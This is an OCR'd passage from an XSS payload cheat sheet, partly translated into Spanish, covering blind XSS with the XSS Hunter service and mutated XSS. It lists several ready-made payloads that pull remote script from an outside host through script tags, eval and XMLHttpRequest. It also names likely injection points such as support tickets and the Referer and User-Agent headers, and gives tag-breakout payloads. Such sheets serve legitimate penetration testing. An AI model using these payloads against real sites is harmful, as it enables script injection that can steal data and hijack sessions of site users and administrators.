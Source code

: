 ## Blind XSS

### XSS Hunter

Available at [https://xsshunter.com/app](https://xsshunter.com/app)

XSS Hunter le permite encontrar todo tipo de vulnerabilidades de secuencias de comandos entre sitios, incluido el XSS ciego que a menudo se pasa por alto. El servicio funciona alojando sondas XSS especializadas que, al dispararse, escanean la página y envían información sobre la página vulnerable al servicio XSS Hunter.

```javascript
"><script src=//yoursubdomain.xss.ht></script>
```
```javascript
javascript:eval('var a=document.createElement(\'script\');a.src=\'https://yoursubdomain.xss.ht\';document.body.appendChild(a)')
```
```javascript
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//yoursubdomain.xss.ht");a.send();</script>
```
```javascript
<script>$.getScript("//yoursubdomain.xss.ht")</script>
```

### Blind XSS endpoint

- Contact forms
- Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs
- User Agent
  - Custom Site Analytics
  - Administrative Panel logs
- Comment Box
  - Administrative Panel

## Mutated XSS

Úselo cuando la entrada aterrice dentro o entre la apertura/cierre de las siguientes etiquetas:

```javascript
<title>, <style>, <script>, <textarea>, <noscript>, <pre>, <xmp>, <iframe>, <tag>
```

```
</tag><svg onload=alert(1)>

"></tag><svg onload=alert(1)>

</noscript><svg onload=alert(1)>

"></noscript><svg onload=alert(1)>
	
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```
